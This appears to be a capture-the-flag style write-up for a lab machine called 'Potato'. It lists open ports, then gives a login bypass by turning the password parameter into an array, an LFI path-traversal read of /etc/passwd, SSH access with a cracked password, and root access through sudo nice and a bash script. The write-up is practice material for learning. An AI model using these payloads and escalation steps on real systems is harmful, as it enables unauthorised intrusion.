





# Potato

**IP Address:** 192.168.178.101

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22    | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80    | http     | Apache httpd 2.4.41 ((Ubuntu)) |

## Exploitation 
### Exploit Details (Authentication bypass)
* **Name** - Authentication bypass
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

We can bypass the login to the admin website by intercepting the request with BurpSuite and modify the password paramter. 

Code
```bash
Modify from 'password=****' to 'password[]=""'
```





### Exploit Details (LFI)
* **Name** - LFI
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

On the Logs page in the admin website we can create a LFI. Intercept the request with burpsuite and modify the file value to be "../../../../../../../etc/passwd" then forard the request. This will give back the contents of the /etc/passwd which has a password that we can crack. 







Commands
```bash
ssh webadmin@$ip
dragon
whoami
cat local.txt
```


## Privilege Escalation
### Exploit Details (Sudo (nice))
* **Name** - Sudo (nice)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
sudo -l
echo '/bin/bash' > pwn.sh
chmod 777 pwn.sh
sudo /bin/nice /notes/../home/webadmin/pwn.sh
whoami
cat /root/proof.txt
```

